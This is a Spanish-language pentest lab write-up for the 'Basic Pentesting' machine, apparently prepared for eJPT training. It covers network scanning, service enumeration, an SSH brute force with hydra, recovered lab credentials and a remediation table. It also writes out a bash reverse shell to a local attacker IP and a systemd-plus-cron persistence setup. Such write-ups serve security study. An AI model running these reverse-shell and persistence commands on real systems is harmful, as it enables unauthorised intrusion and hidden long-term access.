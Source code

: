# Informe de Pentesting - Basic Pentesting

**Máquina:** Basic Pentesting
**Autor:** Klauss Reyes Granados
**Certificación:** Preparación eJPT

---

## 🎯 Objetivo

Evaluar la máquina vulnerable "Basic Pentesting" simulando una intrusión en caja negra para la preparación del eJPT.

---

## 🛰️ Recolección de Información

* Descubrir IP local:

  ```bash
  ifconfig
  ```
* Descubrir equipos en la red:

  ```bash
  arp-scan -I eth0 192.1.1.0/24
  ```
* Escaneo completo de puertos:

  ```bash
  nmap -p- -sV -sS -Pn -n 192.1.1.5
  ```

---

## 🔎 Enumeración de Servicios

### Puerto 80 - HTTP (Apache Debian Default Page)

```bash
dirb http://192.1.1.9
```

### Puerto 8080 - HTTP

```bash
dirb http://192.1.1.9:8080
```

### Puerto 139/445 - Samba

```bash
enum4linux 192.1.1.9
```

---

## 💥 Explotación

### Ataque de fuerza bruta SSH:

```bash
sudo hydra -l jan -P /usr/share/wordlists/rockyou.txt 192.1.1.9 ssh
```

Credenciales encontradas:

* jan\:armando
* kay\:beeswax

---

## ⬆️ Escalado de Privilegios

* Se detectó el uso de sudoers para ejecutar `pip`.
* También se encontraron librerías Python con permisos 777.

---

## 🧠 Post-Explotación

### Persistencia mediante servicio en cron y systemd:

* Script Bash con shell inversa:

```bash
bash -i >& /dev/tcp/192.1.1.4/21000 0>&1
```

* Crear servicio:

```ini
[Unit]
Description=Backup reverse shell
[Service]
ExecStart=/usr/bin/backups.sh
[Install]
WantedBy=multi-user.target
```

* Añadir en cron:

```bash
* * * * * systemctl start backup.service
```

---

## 🚨 Vulnerabilidades Detectadas

| ID | Vulnerabilidad                           | Nivel   | Recomendación                                              |
| -- | ---------------------------------------- | ------- | ---------------------------------------------------------- |
| 1  | Clave SSH expuesta en web                | Crítico | No almacenar claves privadas en servicios accesibles       |
| 2  | Contraseña débil SSH                     | Alto    | Usar contraseñas fuertes o autenticación por clave pública |
| 3  | Permisos 777 en librerías Python         | Alto    | Limitar acceso a archivos críticos                         |
| 4  | Uso de `pip` como sudo sin restricciones | Crítico | Restringir comandos sudo por usuario                       |

---

## ✅ Conclusiones

* El acceso inicial se logró mediante fuerza bruta SSH.
* Se encontraron malas prácticas como contraseñas débiles y claves expuestas.
* El entorno fue comprometido completamente hasta obtener shell root.
* Se estableció persistencia como mecanismo de post-explotación.

---

> Este informe fue realizado como parte del entrenamiento para la certificación eJPT en un entorno de laboratorio controlado.
